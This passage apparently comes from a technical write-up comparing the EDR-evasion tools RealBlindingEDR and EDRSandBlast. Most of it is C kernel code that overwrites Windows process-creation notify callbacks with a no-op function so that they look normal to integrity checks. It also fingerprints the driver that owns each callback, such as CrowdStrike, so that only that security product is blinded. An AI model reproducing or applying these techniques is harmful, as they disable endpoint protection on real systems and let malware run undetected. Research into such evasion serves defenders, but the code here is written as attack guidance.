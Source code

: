 **Problem**: Creating NULL entries in callback arrays is anomalous and detectable via integrity validation.

**RealBlindingEDR Approach**:
```c
// Replaces EDR callback with NOP-equivalent function
PspCreateProcessNotifyRoutine[EDR_INDEX] = &NoOpCallback;

// NoOpCallback returns immediately without action
VOID NoOpCallback(HANDLE ParentId, HANDLE ProcessId, BOOLEAN Create) {
    return; // Do nothing, appear legitimate
}
```

**Benefit**: Callback array remains populated, appears normal to integrity checks.

#### 2. Selective Callback Disablement

**EDRSandBlast Approach**:
- Removes ALL callbacks for process/thread/image creation
- Affects ALL security products simultaneously

**RealBlindingEDR Approach**:
- Identifies specific EDR callbacks by return address fingerprinting
- Disables ONLY target EDR callbacks
- Leaves Windows Defender and other products functional

**Implementation**:
```c
// Enumerate callback array
for (ULONG i = 0; i < 64; i++) {
    if (!PspCreateProcessNotifyRoutine[i]) continue;

    // Get callback address (decrypt if Windows 10+)
    PVOID pCallback = DecryptCallbackPointer(PspCreateProcessNotifyRoutine[i]);

    // Determine which driver owns this callback by searching loaded module list
    PKLDR_DATA_TABLE_ENTRY pModule = FindModuleByAddress(pCallback);
    if (!pModule) continue;

    // Check if callback belongs to target EDR (e.g., CrowdStrike)
    if (wcsstr(pModule->BaseDllName.Buffer, L"CrowdStrike")) {
        // Disable ONLY CrowdStrike callback
        PspCreateProcessNotifyRoutine[i] = EncryptCallbackPointer(&NoOpCallback);
    }
}

// Helper: Find module containing given address
PKLDR_DATA_TABLE_ENTRY FindModuleByAddress(PVOID pAddress) {
    PKLDR_DATA_TABLE_ENTRY pEntry = (PKLDR_DATA_TABLE_ENTRY)PsLoadedModuleList->Flink;
    while (pEntry != (PKLDR_DATA_TABLE_ENTRY)PsLoadedModuleList) {
        if ((ULONG_PTR)pAddress >= (ULONG_PTR)pEntry->DllBase &&
            (ULONG_PTR)pAddress < (ULONG_PTR)pEntry->DllBase + pEntry->SizeOfImage) {
            return pEntry;
        }
        pEntry = (PKLDR_DATA_TABLE_ENTRY)pEntry->InLoadOrderLinks.Flink;
    }
    return NULL;
}
```

